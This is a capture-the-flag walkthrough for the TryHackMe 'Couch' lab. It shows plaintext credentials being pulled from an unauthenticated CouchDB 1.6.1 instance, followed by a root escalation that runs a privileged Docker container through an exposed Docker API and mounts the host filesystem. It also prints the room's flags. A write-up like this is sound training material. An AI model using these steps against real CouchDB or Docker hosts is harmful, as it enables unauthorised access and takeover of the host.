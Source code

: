 # _Writeup Couch_

	https://tryhackme.com/room/couch
	
-------------------------------------------------------

I did some `nmap scan` but i was taking too much time so I used `rustscan` 

	PORT     STATE SERVICE VERSION
	5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
	|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
	|_http-title: Site doesn't have a title (text/plain; charset=utf-8).


=> `2`

-------------------------------------------------------------------------------
from about scan we can it's easy now :

=> `couchdb`


`port` is also there:

=> `5984`

----------------------------------------------------------------------------

now let's visit `machineIP:5984` :

we found some logs there :

	{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}


=> `1.6.1`

----------------------------------------------------------------------------

We have the `couchdb` it's better to google then using `gobuster`

on `google` we could able to find some info 

we can visit `machineIP:5984/_utils` 

=> `_utils`

=> `_all_dbs`
---------------------------------------------------------------------------
on there you can find a page and a tab `secrete` 
there you can `passwordbackup` and fially we got `user:password`

	passwordbackup
		
	atena:t4qfzcc4qN##

=> `atena:t4qfzcc4qN##`

-----------------------------------------------------------------

I tried connecting it with `ssh` and i got success:

																														     
	┌──(astute㉿kali)-[~/ctf/wordlists]
	└─$ ssh atena@10.10.5.163                                                                                                                                                                                                              130 ⨯
	The authenticity of host '10.10.5.163 (10.10.5.163)' can't be established.
	ECDSA key fingerprint is SHA256:TtfUUNS6Ivob4iQ7X414863lCCc1q2YyzzycIkRTZ3k.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '10.10.5.163' (ECDSA) to the list of known hosts.
	atena@10.10.5.163's password: 
	Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
	atena@ubuntu:~$ 


-------------------------------------------------------------------------------


	atena@ubuntu:~$ ls
	user.txt
	atena@ubuntu:~$ cat user.txt 
	THM{1ns3cure_couchdb}
	atena@ubuntu:~$ 


we got user `flag` :

=> `THM{1ns3cure_couchdb}`

----------------------------------------------------------------------
i tried to see some `SUID` perms but when i see bash_history `cat .bash_history` i found jackpot

there was command history to open `root.txt` file and i used exact code to get into `root`

	nano root.txt
	exit
	sudo deluser USERNAME sudo
	sudo deluser atena sudo
	exit
	sudo -s
	docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
	uname -a
	exit
	atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine


	/ # 
	/ # whoami
	root


now i am `root` so for finding `root.txt` i fired up command :

`find / -type f -name root.txt 2>dev/null`

	/ # find / -type f -name root.txt 2>/dev/null
	/mnt/root/root.txt
	/ # cat /mnt/root/root.txt 
	THM{RCE_us1ng_Docker_API}
	/ # 

=> `THM{RCE_us1ng_Docker_API}`


-----------------------------------------------------------------------
# _Thank You_
